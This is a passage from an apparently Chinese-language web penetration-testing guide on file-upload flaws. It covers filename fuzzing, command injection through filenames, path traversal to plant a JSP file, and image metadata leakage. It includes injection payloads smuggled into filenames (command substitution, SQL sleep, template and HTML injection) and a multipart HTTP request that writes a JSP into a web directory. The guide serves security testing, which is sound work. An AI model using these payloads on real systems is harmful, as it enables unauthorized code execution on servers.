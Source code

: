 如上传文件名为`test.png`，那么我们可以设置变量为`§test§.png`，然后fuzz一下各种注入的payload，如：

```sh
a$(whoami)z.png
a`whoami`z.png
a&#39;;select&#43;sleep(10);--z.png
sleep(10)-- -.png
&lt;h1&gt;test&lt;h1&gt;.png
${2*3}
```



命令注入的情况：

文件上传后，服务端通过系统命令进行文件的重命名、复制、移动、删除等动作，可能调用系统命令执行。未对文件名进行过滤，导致命令注入。



参考：

- [RCE vulnerability in a file name](https://www.vaadata.com/blog/rce-vulnerability-in-a-file-name/)
- [Remote Unrestricted file Creation/Deletion and Possible RCE.](https://hackerone.com/reports/191884)

## 1.13. 文件路径可控

路径遍历

```http
POST /uai/download/uploadfileToPath.htm HTTP/1.1
…………

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name=&#34;input_localfile&#34;; filename=&#34;xxx.jsp&#34;
Content-Type: image/png

&lt;%out.println(&#39;test123&#39;);%&gt;

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name=&#34;uploadpath&#34;

../webapps/notifymsg/devreport/
-----------------------------570xxxxxxxxx6025274xxxxxxxx1--
```

参考：

- [Unrestricted file upload (RCE)](https://hackerone.com/reports/343726)

## 1.14. 元数据泄漏

元数据是照片背后的故事，它告诉我们图像文件是如何创建的，在哪里和何时创建的。它还描述了照片的内容，确定了摄影师，并向您展示了图像在后期处理中是如何编辑的。简单地说，假设您使用数码相机单击了一张图片，当该图像被处理并保存在存储设备上时，一些属性被添加到文件中，例如作者、位置、设备信息和其他适用于描述图像信息的信息。

如果服务端对用户上传的图片未进行处理就直接展示，那么将可能会导致源数据泄漏；通常情况下，元数据中包含GPS地址、设备信息等，会被当作低危。
